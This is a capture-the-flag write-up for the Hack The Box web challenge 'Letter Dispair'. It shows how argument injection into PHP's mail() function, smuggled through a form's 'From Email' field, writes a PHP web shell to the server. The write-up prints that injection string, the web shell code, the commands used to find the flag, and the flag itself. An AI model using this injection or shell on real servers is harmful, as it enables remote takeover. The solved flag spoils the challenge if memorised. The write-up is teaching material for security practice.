 # Writeup "Letter Dispair"

## Quick Info

<table>
	<tr><td><b>site</b></td><td>Hack the box</td></tr>
	<tr><td><b>url</b></td><td>https://app.hackthebox.com/challenges/letter-dispair</td></tr>
	<tr><td><b>discussion</b></td><td>https://forum.hackthebox.com/t/official-letter-dispair-discussion</td></tr>
	<tr><td><b>type</b></td><td>challenge/web</td></tr>
	<tr><td><b>difficulty&nbsp;&nbsp;&nbsp;</b></td><td>easy</td></tr>
	<tr><td><b>startdate</b></td><td>2022-07-31</td></tr>
	<tr><td><b>enddate</b></td><td>2022-08-03</td></tr>
</table>

## Description

> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

## Description

We receive an IP and port to a server. When we access the server using a web browser, we see a directory listing with three files:

<p align="center">
   <img src="includes/letter-dispair-01.png" />
</p>

`mailer.php` displays a form for sending e-mails:

<p align="center">
   <img src="includes/letter-dispair-02.png" />
</p>

`mailer.zip` contains a copy of `mailer.php`, which allows us to analyse the source code.

A quick Google search tells us that PHP's `mail()`[^1] function allows remote code execution if the fifth parameter can be influenced by the user[^2]. Checking the source code reveals that the code is vulnerable. Whatever we put in the "From Email" field will be used as a parameter.

Following an article describing how to exploit the vulnerability[^3], we enter the following string in the "From Email" field to create a publicly-accessible PHP file whose contents we can manipulate:

```
relations@moi.gov.htb -X/var/www/html/rce.php
```

Our payload will be a makeshift PHP shell, which we enter into the "Subject" field. The following line would be sufficient:

```
&lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
```

However, this is not very comfortable. We therefore improve the code to include a text field for entering commands and which formats the output:

```
&lt;hr /&gt;
&lt;form action=&quot;rce.php&quot; method=&quot;get&quot;&gt;
  &lt;input type=&quot;text&quot; 
    id=&quot;cmd&quot; 
    name=&quot;cmd&quot; 
    value=&#039;&lt;?php print($_GET[&quot;cmd&quot;]); ?&gt;&#039; 
    autofocus 
    onfocus=&quot;var temp_value=this.value; 
      this.value=&#039;&#039;; 
      this.value=temp_value&quot; /&gt;
&lt;/form&gt;
&lt;hr /&gt;
&lt;pre&gt;
  &lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
&lt;/pre&gt;
&lt;hr /&gt;
```

After hitting the "Start Delivery" button, we reload the directory listing in order to verify that the file was created correctly. If no file is visible, we have to try different paths. In this case we are lucky on the first try:

<p align="center">
   <img src="includes/letter-dispair-03.png" />
</p>

We can now open our PHP shell and start looking for the flag. Using the following commands, we are successful:

```
ls -la
whoami
find / -name *flag*
cat /flag.txt
```

<p align="center">
   <img src="includes/letter-dispair-04.png" />
</p>

```
HTB{4_l3tt3r_0f_h0p3_c0nqu3r1ng_d1sp4ir!}
```

### Sources

[^1]: https://www.php.net/manual/de/function.mail.php
[^2]: https://blog.sonarsource.com/why-mail-is-dangerous-in-php/
[^3]: https://www.saotn.org/exploit-phps-mail-get-remote-code-execution
